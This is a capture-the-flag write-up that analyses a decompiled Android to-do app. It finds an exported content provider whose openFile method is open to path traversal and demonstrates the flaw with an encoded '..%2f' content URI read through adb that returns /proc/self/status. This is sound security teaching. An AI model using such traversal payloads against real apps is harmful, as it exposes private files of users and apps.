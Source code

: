 # Challenge 3 report
By zeski and Bumblebee

### Recon
We get an `Android_task.apk` file. First thing we do is use a decompiler of choice to decompile it, so we can start looking at some code. We notice it is a kotlin application, and the area of interest in the code would be in the `com/jbvincey` directory, since most other directories are standard for android. We searched the name of the application to see if this is an existing app or something new. We found the following github repository: https://github.com/jbvincey/MyTodoList/. Since the decompiled code differs a lot from the kotlin source code, we cannot just run diff on it, so we start manually checking for suspicious parts of the code.

First we check the `AndroidManifest.xml` file to check for wierd permissions or other things that might let us exploit some part of the application. We notice the following provider:
```xml
<provider
  android:name="com.jbvincey.mytodolist.GetFile"
  android:enabled="true"
  android:exported="true"
  android:authorities="com.jbvincey.mytodolist.getfile" 
/>
```
which should allow us to read the applications files from outside. This is not a problem in itself, but it gives us a direction to look at.

Looking for how the provider is uses, we find the `GetFile` class, and in it the following function:
```java
public ParcelFileDescriptor openFile(Uri uri, String str) {
    File cacheDir;
    Intrinsics.checkNotNullParameter(uri, "uri");
    Intrinsics.checkNotNullParameter(str, "mode");
    String lastPathSegment = uri.getLastPathSegment();
    if (lastPathSegment != null) {
        Context context = getContext();
        String str2 = null;
        if (!(context == null || (cacheDir = context.getCacheDir()) == null)) {
            str2 = cacheDir.getAbsolutePath();
        }
        if (str2 != null) {
            File file = new File(str2 + '/' + lastPathSegment);
            if (file.exists() && file.canRead()) {
                return ParcelFileDescriptor.open(file, 268435456);
            }
            throw new FileNotFoundException("File not found or not readable");
        }
        throw new FileNotFoundException("Cache directory not found");
    }
    throw new FileNotFoundException("Invalid file path");
}
```
which quickly confirms our suspicion. Firstly, this class is not a part of the original github repository. Secondly, constructing paths by concating strings together is rarely a good idea.

Looking into the details of this function we find out that `getLastPathSegment` is vulnerable to path traversal.

From https://support.google.com/faqs/answer/7496913?hl=en
> Note that calling getLastPathSegment on the Uri parameter is not safe. A malicious app can supply an encoded Uri path like %2F..%2F..path%2Fto%2Fsecret.txt so the result of getLastPathSegment will be /../../path/to/secret.txt.

So this gives us a path traversal vulnerability in the application we are given. All that is left is to find out how to use it.

### Exploit
To exploit the application, we first need to figure out how to even read files from outside an application. For this we run the app inside an emulator and use adb shell to execute commands.

First we check that we can indeed read the application files by running

```
$ content read --uri content://com.jbvincey.mytodolist.getfile/filename.txt
this is a test
```

We see that the output we get is the expected one, as the app writes to this file on start.
```java
public final class MyTodoListApp extends Application {
    public void onCreate() {
        createCacheFile(this, "filename.txt", "this is a test");
        super.onCreate();
        GlobalContextExtKt.startKoin$default((KoinContext) null, (Function1) new MyTodoListApp$onCreate$1(this), 1, (Object) null);
    }

    public final void createCacheFile(Context context, String str, String str2) {
        Intrinsics.checkNotNullParameter(context, "context");
        Intrinsics.checkNotNullParameter(str, "fileName");
        Intrinsics.checkNotNullParameter(str2, "content");
        try {
            FileOutputStream fileOutputStream = new FileOutputStream(new File(context.getCacheDir(), str));
            byte[] bytes = str2.getBytes(Charsets.UTF_8);
            Intrinsics.checkNotNullExpressionValue(bytes, "(this as java.lang.String).getBytes(charset)");
            fileOutputStream.write(bytes);
            fileOutputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

Next we try with the path traversal that we suspect.
```
$ content read --uri content://com.jbvincey.mytodolist.getfile/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fproc%2fself%2fstatus
Name:   mple.mytodolist
Umask:  0077
State:  S (sleeping)
Tgid:   13284
Ngid:   0
Pid:    13284
PPid:   295
TracerPid:      0
Uid:    10154   10154   10154   10154
Gid:    10154   10154   10154   10154
FDSize: 128
Groups: 9997 20154 50154
VmPeak:  1920144 kB
VmSize:  1287548 kB
VmLck:         0 kB
VmPin:         0 kB
VmHWM:    126812 kB
VmRSS:    123808 kB
RssAnon:           33028 kB
RssFile:           90236 kB
RssShmem:            544 kB
Seccomp:        2
Speculation_Store_Bypass:       vulnerable
Cpus_allowed:   f
Cpus_allowed_list:      0-3
Mems_allowed:   1
Mems_allowed_list:      0
voluntary_ctxt_switches:        126
nonvoluntary_ctxt_switches:     187
```

We see the output of `/proc/self/status`, which means our exploit worked, and the challenge is completed.